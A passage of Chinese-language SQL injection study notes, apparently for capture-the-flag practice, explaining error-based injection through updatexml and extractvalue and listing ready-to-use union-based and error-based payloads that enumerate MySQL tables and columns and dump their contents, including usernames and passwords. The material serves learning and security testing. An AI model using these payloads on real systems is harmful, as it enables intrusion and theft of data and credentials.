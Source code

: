 **报错原理**：利用concat(a_str,sql_str)构造不符合Xpath语法的字符串，导致其解析时报错，updatexml函数将返回报错内容，其中a_str用于让Xpath解析失败，sql_str为正确的能被解析的sql语句。

#### 2.1.2. ExtractValue(xml_doc, xpath_expr)

此函数是返回在xml_doc用xpath_expr路径匹配到的XML片段。报错原理与updatexml()相同。

#### 2.1.3. substr(str_target,pos,length)

对str_target字符串进行截取，从第pos位开始，返回长度为length的字符串。
其中，pos从1开始。

## 3. 手工注入
### 3.1. 联合查询

```sql
-- 获取table
union select database(),group_concat(table_name) from information_schema.tables where table_schema=database()--+
-- 获取column
union select database(),group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='flag'--+
-- or
union select database(),group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x666c6167--+
-- 获取表中值
union select database(),group_concat(flag) from flag--+
```

### 3.2. 报错查询

```sql
# 获取数据库名
and extractvalue(1,concat(0x7e,database()))--+
# 获取表名
and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())))--+
# 获取列名
and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='flag')))--+
# 获取字段值
and extractvalue(1,concat(0x7e,substr((select group_concat(flag) from flag),1,30)))--+
```

原始语句：`UPDATE users SET password = '$passwd' WHERE username='$row1'`

使用 update 时无法直接使用 `select` 查询某些字段，
报错：<mark style="background: #BBFABBA6;">You can't specify target table 'users' for update in FROM clause</mark>

解决方法：用 `(select username from users)a` 替换掉

```sql
updatexml(1,concat(0x7e,(select group_concat(username,0x23,password) from (select username,password from users)a)),1)--+
```
